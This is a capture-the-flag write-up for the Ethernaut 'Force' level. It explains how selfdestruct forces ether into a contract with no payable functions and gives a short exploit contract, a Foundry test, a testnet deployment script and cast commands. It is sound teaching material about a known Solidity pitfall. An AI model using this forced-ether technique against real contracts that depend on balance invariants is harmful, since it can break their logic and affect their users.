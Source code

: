 ## 👾 07. Force

<br>


### tl; dr

<br>


* this challenge exploits smart contract invariants, and how total balance is not a good invariant.
  - contract invariants are properties of the program state that are expected always to be true. for instance, the value of `owner` state variable, the total token supply, etc., should always remain the same.
  - a state in the blockchain is considered valid when the contract-specific invariants hold true.

<br>

* in this challenge, we need to find a way to forcely send `ether` to a contract that does not explicitly contain a `payable`, a `receive()`, or a `fallback()` function.

<br>



* there are two ways this can be done when the destination contract is already deployed:
   - by using `coinbase` transactions or block rewards (like MEV searchers and validators rewards)
  - by leveraging (**[the now being deprecated](https://ethereum-magicians.org/t/deprecate-selfdestruct/11907)**) `selfdestruct(address)`, which allows contracts to receive `ether` from other contracts. 
    - all the `ether` stored in the calling contract is transferred to `address` (and since this happens at the EVM level, there is no way for the receiver to prevent it). 
    - `selfdestruct()` can be considered a garbage collection to clean up voided contracts (and it consumes negative gas).

<br>


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/06c0c5bb-8c1f-49a4-a2a1-561d5f1fa74b">
</p>




<br>

```solidity
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```


<br>

---

### discussion

<br>

* `Force` contract has no code and its ABI is empty, so we need to figure out how we can send `ether` to it.

<br>

* as mentioned above, we can use `selfdestruct(address)`, a function used to delete a contract from the blockchain by removing its code and storage.

<br>



----

### solution

<br>

* we craft a very simple exploit, located at `src/07/ForceExploit.sol`:

<br>

```solidity
contract ForceExploit {
    
    constructor(address payable instance) payable {
        selfdestruct(instance);
    }
}
```

<br>

* and test it with `test/07/Force.t.sol`:

<br>

```solidity
contract ForceTest is Test {

    address payable instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
    
        vm.prank(instance);
        vm.deal(hacker, 1 ether);
    }

    function testForceHack() public {

        vm.startPrank(hacker);
        assert(instance.balance == 0);
        ForceExploit exploit = new ForceExploit{value: 0.0005 ether}(instance);
        assert(instance.balance != 0);
        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ForceTest -vvvv    
```



<br>

* then, we submit the solution with `script/07/Force.s.sol`:

<br>

```solidity
contract Exploit is Script {

        address payable instance = payable(vm.envAddress("INSTANCE_LEVEL7"));   
        uint256 hacker = vm.envUint("PRIVATE_KEY");   
        address deployer = vm.rememberKey(hacker);    
        
        function run() external {

            vm.startBroadcast(deployer);
            ForceExploit exploit = new ForceExploit{value: 0.0005 ether}(instance);
            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/07/Force.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>


---

### alternative solution using `cast`

<br>

* deploy the exploit with:

<br>

```shell
> forge create src/07/ForceExploit.sol:Contract --constructor-args=<level address> --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

* then call the contract with:

<br>

```shell
> cast send <deployed address> --value 0.0005ether --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

----

### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



<br>


